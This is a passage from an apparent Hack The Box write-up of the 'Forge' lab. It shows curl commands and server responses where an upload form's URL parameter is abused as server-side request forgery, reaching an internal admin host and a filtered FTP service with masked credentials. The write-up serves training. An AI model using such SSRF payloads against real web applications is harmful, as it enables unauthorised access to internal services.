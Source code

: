 Now if we curl that:

```html
┌──(root💀kali)-[~/htb/forge]
└─# curl http://forge.htb/uploads/clJnyG73Ygsheb7YVQ5v 
<!DOCTYPE html>
<html>
<head>
    <title>Announcements</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <link rel="stylesheet" type="text/css" href="/static/css/announcements.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br>
    <ul>
        <li>An internal ftp server has been setup with credentials as <HIDDEN></li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
    </ul>
</body>
</html>
```

## Upload Page

To save messing about in the browser I'll switch to using Curl from now on. Above we have been given FTP credentials, and a hint that we can access via /upload using the ?u= parameter. From the earlier scan we saw FTP is filtered, so can assume we need to access via the same webpage.

Here's how we do that using Curl:

```sh
┌──(root💀kali)-[~/htb/forge]
└─# curl -s -d 'url=http://ADMIN.FORGE.HTB/upload?u=ftp://<HIDDEN>@FORGE.HTB&remote=1' -X POST http://forge.htb/upload
```

From this we use -X to give the URL to the upload page, then we use -d to send the data we want to post. Here I've given it the FTP credentials.

The response looks good:

```html
<center>
    <strong>File uploaded successfully to the following url:</strong>
    </center>
    </h1>
    <h1>
        <center>
            <strong><a href="http://forge.htb/uploads/lmlmHMB1xbKc89Cg8jJm">http://forge.htb/uploads/lmlmHMB1xbKc89Cg8jJm</strong>
        </center>
```
